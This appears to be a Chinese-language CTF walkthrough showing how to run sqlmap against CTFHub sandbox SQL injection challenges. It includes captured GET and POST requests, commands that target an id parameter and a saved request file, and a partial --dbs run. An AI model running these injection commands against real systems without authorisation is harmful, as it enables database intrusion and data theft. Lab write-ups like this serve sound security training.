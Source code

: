 ```
GET /?id=1 HTTP/1.1
Host: challenge-58289ab9eb886e7d.sandbox.ctfhub.com:10800
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-58289ab9eb886e7d.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

url + 参数

```shell
python sqlmap.py "http://challenge-58289ab9eb886e7d.sandbox.ctfhub.com:10800/?id=1"
```

### POST

bp

```
POST /index.php HTTP/1.1
Host: challenge-52acc3f9cc322c2d.sandbox.ctfhub.com:10800
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-52acc3f9cc322c2d.sandbox.ctfhub.com:10800
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge-52acc3f9cc322c2d.sandbox.ctfhub.com:10800/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin&password=123124
```

将抓包保存为 txt 文件，-r 表示加载一个文件，-p 指定参数

```shell
python sqlmap.py -r c:\1.txt -p username
```

### （1）数据库 `--dbs`

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py "http://challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com:10800/?id=1" --dbs

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:43:38 /2023-08-25/

[15:43:38] [INFO] testing connection to the target URL
[15:43:38] [INFO] testing if the target URL content is stable
[15:43:38] [INFO] target URL content is stable
[15:43:38] [INFO] testing if GET parameter 'id' is dynamic
[15:43:39] [WARNING] GET parameter 'id' does not appear to be dynamic
[15:43:39] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
```